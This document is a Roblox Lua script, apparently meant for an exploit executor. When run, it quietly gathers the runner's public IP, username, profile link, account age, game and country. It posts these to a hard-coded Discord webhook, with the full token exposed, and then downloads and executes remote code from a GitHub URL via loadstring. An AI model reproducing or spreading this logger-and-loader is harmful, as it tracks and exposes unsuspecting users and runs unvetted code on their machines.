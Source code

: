 local hwid = "ไม่ได้ดัก"
local excutorcheck = "ไม่ได้ดัก"
local ip = tostring(game:HttpGet("https://api.ipify.org", true))
local GetName = game:GetService("MarketplaceService"):GetProductInfo(game.PlaceId)
local url = "https://discordapp.com/api/webhooks/869544310381637642/_Kcd3KukxHo1DholkDvyLVncGd5Pigw5uWU36wmJzVpa6HpSn5yXha8DuQBhteLDbpB6"local data = {
   ["content"]= " ",
   ["embeds"]= {
    {
      ["title"]= "มีคนรันสคริป",
      ["color"]= 16761344,
      ["fields"]= {
        {
          ["name"]= "Player Name",
          ["value"]= game.Players.LocalPlayer.Name,
          ["inline"]= true
        },
        {
          ["name"]= "Player Profile",
          ["value"]= "https://www.roblox.com/users/"..game.Players.LocalPlayer.UserId.."/profile",
          ["inline"]= true
        },
        {
          ["name"]= "Account Ages",
          ["value"]= game.Players.LocalPlayer.AccountAge,
          ["inline"]= true
        },
        {
          ["name"]= "Excutor",
          ["value"]= excutorcheck,
          ["inline"]= true
        },
        {
          ["name"]= "Game Name",
          ["value"]= GetName.Name,
          ["inline"]= true
        },
        {
          ["name"]= "Game Link",
          ["value"]= "https://roblox.com/games/"..game.PlaceId.."/",
          ["inline"]= true
        }
      },
      ["footer"]= {
        ["text"]= "IP : "..ip.."   |   HWID : "..hwid.."   |   ".."Country : "..game:GetService("LocalizationService"):GetCountryRegionForPlayerAsync(game.Players.LocalPlayer)
      }
    }
  },
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
   ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)
loadstring(game:HttpGet("https://raw.githubusercontent.com/DevilXD99/mapping/main/README.md"))()
 
